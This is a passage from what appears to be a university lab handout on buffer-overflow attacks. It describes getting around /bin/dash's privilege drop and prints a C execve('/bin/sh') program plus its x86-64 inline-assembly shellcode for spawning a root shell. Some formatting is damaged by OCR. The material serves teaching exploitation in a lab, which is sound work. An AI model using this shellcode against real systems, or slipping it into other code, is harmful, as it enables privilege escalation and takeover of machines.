 /bin/dash. Notice the leading “l”(l = symbolic link) when you execute the command: <strong>ls -l /bin/sh</strong>. To circumvent this protection scheme, we could use another shell program (e.g., /bin/zsh), instead of /bin/dash. The following instructions describe how to create some exploit code. All of the initial code is available online in a gzipped, tape archive (tgz) file: <strong>/pub/cis450/programs/Lab3.tgz</strong>. Copy this file to your own directory, and extract the files using the command: <strong>tar xvzf Lab3.tgz</strong>. This will create a folder called Lab3 with all of the necessary files inside that folder; e.g., <strong>cd Lab3</strong>.




<strong>Exploit Code: </strong>Before you start the attack, you need some exploit code; i.e., code that can be used to launch a root shell or perform some other malicious act; e.g., change a password, etc. This exploit code has to be loaded into the memory so that we can force our program to jump to it. Consider the following code that makes a system call to execute /bin/sh:







int main( ) {     char *argv[2];     argv[0] = “/bin/sh”;     argv[1] = NULL;

execve(argv[0], argv, NULL);

}




The shell code we are using is essentially just the assembly version of the above program (just modified to store the strings on the stack). The simple assembly version is called shellCode.c:




<strong>int main() { </strong>

<strong>__asm__( </strong>

<strong>  “mov    $0x0,%rdx
t”        // arg 3 = NULL </strong>

<strong>  “mov    $0x0,%rsi
t”        // arg 2 = NULL </strong>

<strong>  “mov    $0x0068732f6e69622f,%rdi
t” </strong>

<strong>  “push   %rdi
t”             // push “/bin/sh” onto stack </strong>

<strong>  “mov    %rsp,%rdi
t”        // arg 1 = stack pointer = addr of “/bin/sh” </strong>

<strong>  “mov    $0x3b,%rax
t”       // syscall number = 59 </strong>

<strong>  “syscall
t” </strong>

<strong>); </strong>

<strong>} </strong>
